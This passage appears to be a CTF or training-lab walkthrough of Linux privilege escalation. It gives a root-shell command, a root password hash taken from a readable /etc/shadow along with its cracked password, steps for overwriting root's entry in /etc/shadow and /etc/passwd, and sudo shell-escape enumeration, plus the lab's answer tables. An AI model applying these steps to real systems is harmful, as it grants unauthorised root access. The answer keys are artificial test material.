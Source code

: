 ```
/tmp/rootbash -p
```


## Weak File Permissions - Readable /etc/shadow



| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the root user's password hash ? | $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0 |
| What hashing algorithm was used to produce te root user's password hash ? | sha512crypt |
| What is the root user's password ? | password123 |



## Weak File Permissions - Writable /etc/shadow 

> create a credential
```
mkpasswd -m sha-512 password123
```



## Weak File Permissions - Writeable /etc/passwd

> generate a credential for passwd file
```
openssl passwd password1234
```
> after the above command copy the generated hash and paste it into the `/etc/passwd` file replacing the `x` in root

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Run the 'id' command as the newroot user. What is the result ? | uid=0(root) gid=0(root) groups=0(root) |




## Sudo - Shell Escape Sequences

> list all program that allows current user to run
```
sudo -l
```
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many program is "user" allowed to run via sudo ? | 11 |
| One Program on the list doesn't have a shell escape sequence on GTFOBins. Which is it ? | apache2 |
